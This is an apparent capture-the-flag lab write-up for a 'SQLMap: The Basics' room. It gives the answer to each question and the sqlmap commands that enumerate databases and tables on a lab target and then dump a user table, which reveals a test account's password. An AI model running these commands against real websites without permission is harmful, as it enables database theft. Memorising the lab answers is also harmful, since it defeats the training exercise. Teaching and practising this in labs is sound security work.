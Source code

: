 # SQLMap: The Basics

### Introduction
- Which language builds the interaction between a website and its database? `sql`

### SQL Injection Vulnerability
- Which boolean operator checks if at least one side of the operator is true for the condition to be true? `or`
- Is 1=1 in an SQL query always true? (YEA/NAY) `YEA`

### Automated SQL Injection Tool
- Which flag in the SQLMap tool is used to extract all the databases available? `--dbs`
- What would be the full command of SQLMap for extracting all tables from the "members" database? (Vulnerable URL: http://sqlmaptesting.thm/search/cat=1) `sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables`

### Practical Exercise
- How many databases are available in this web application?<br />
First, run capture the request with burpsuite and save it on a `request` file. Then, run `sqlmap -r request --batch --level 5 --risk 3 -p email`. After it finishes, run `sqlmap -r request -p email --dbs`:<br />
![image](https://github.com/user-attachments/assets/5c84963f-e574-425b-a0fb-9060a65333ff)<br />
`6`
- What is the name of the table available in the "ai" database?<br />
Run `sqlmap -r request -p email -D ai --tables`: <br />
![image](https://github.com/user-attachments/assets/cb92f282-63d2-4d60-9df9-d53724fb8a19)<br />
`user`
- What is the password of the email test@chatai.com?<br />
Finally, run `sqlmap -r request -p email -D ai -T user --dump`:<br />
![image](https://github.com/user-attachments/assets/871787de-0145-4c04-b24a-7f9f41289c66)<br />
`12345678`
